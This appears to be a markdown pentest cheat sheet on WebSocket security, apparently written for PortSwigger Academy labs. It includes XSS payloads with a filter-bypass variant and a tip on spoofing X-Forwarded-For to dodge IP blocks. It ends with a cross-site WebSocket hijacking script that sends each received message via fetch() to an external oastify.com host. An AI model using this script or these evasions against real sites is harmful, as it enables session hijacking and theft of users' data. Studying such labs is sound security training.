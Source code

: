 ### WebSockets security vulnerabilities

In principle, practically any web security vulnerability might arise in relation to WebSockets:

1. User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection.
2. Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.
3. If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

**Note:** In some cases you can bypass ip based restrictions while testing via `X-Forwarded-For` header if there any malicious activity detected by server.

### Testing Websockets Vulnerability
    For XSS: <img src=1 onerror='alert(1)'>
    To bypass XSS filter: <img src=1 oNeRrOr=alert`1`>
    For XXE:
    For SQLi:
    For SSRF:
### Cross-site WebSocket hijacking
Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

[Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)

####  Exploit
```js
<script>
    var ws = new WebSocket('wss://0a820003036953d283898de6004b0013.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://agus9fqks1acunox6p9wrogmndt4hv5k.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
